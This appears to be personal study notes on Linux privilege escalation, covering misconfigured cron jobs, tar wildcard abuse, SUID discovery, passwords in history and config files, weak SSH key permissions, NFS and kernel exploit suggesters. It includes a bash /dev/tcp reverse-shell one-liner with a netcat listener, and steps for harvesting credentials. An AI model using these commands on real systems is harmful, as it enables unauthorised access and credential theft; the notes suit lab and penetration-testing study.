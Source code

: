 # Linux Priv Esc

## Cron Jobs

```

if programs/scripts in /etc/crontab perms are misconfigured, a shell can be created
can access this through netcat

#!/bin/bash
bash -i >& /dev/tcp/$IP/4444 0>&1</p>

have nc listen on tcp port 4444
nc -nvlp 4444

can manipulate PATH variable to execute cron jobs with poor perms

```

### Cron Jobs - Wildcards
```

abuse tar to execute reverse tcp shell
* in the tar cron job will execute anything inside the /home/user directory
can use msfvenom to create reverse tcp shell to accomplish this

```

## SUID/SGID Executables

### Known Exploits

can use this script to find all the SUID/SGIF executables on the machine:
```

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

```

## Passwords and Keys

### History Files

```

if a user accidentally types their password in the CLI, it might get logged by a history file

>cat ~/.*history | less

user has tried to connect to a mysql server but forgot a space

>mysql -h somehost.local -uroot -ppassword123

```

### Config Files

```

config files often contain passwords

look for and read config files incase of this

```

### SSH Keys

```

sometimes user store ssh keys with weak perms which means we can copy them and access them

look for hidden directory /.ssh

```

## NFS

```

if root squashing is enabled, id is set to nobody user

means we can make an NFS share and upload to the target

```

## Kernel Exploits

```

can use scripts to find potential kernel exploits, should only be used as a last resort

perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

```
